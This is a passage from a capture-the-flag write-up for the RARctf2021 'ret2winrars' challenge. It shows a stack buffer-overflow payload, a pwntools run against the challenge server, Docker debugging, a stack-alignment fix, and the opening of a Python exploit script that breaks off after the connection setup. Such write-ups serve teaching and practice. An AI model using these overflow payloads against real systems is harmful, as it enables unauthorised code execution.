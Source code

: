 Great, just change the `local` variable to False and we have the flag! 

```
./this.py 
[*] '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 193.57.159.27 on port 30527: Done
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb\x11@\x00\x00\x00\x00\x00'
8
[+] Receiving all data: Done (19B)
[*] Closed connection to 193.57.159.27 port 30527
Segmentation fault
```

Wow... no flag? How come?? Well this where having the same environment as the remote binary comes in handy. Time to use docker! 

### Docker testing

Simply use the `build.sh` script and we should be good to go:

```
docker ps
CONTAINER ID   IMAGE                           COMMAND                  CREATED          STATUS          PORTS                    NAMES
7fec0fb6a583   ret2winrars                     "/usr/sbin/xinetd -d…"   18 seconds ago   Up 17 seconds   0.0.0.0:1337->1337/tcp   ret2winrars
```

After running `./build.sh` we can see that the container is up, time to test it there and connect a shell with `docker exec -it ret2winrars bash` so we can see the try it locally. 

```
/ret2winrars 
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb\x11@\x00\x00\x00\x00\x00
Segmentation fault (core dumped)
```

Hmm... maybe this is an Ubuntu thing? After doing some research I stumbled across [this](https://stackoverflow.com/questions/60729616/segfault-in-ret2libc-attack-but-not-hardcoded-system-call#60795264) thread on SO. It is a stack alignment issue, what we must do is include a `ret` instruction in our payload. 

We do that like this:

```python
#!/usr/bin/env python3

from pwn import *

local = False

elf = ELF('./ret2winrars')
rop = ROP(elf)

if local:
	p = elf.process()
else:
	#p = remote('193.57.159.27', 30527)
	p = remote('127.0.0.1', 1337)

```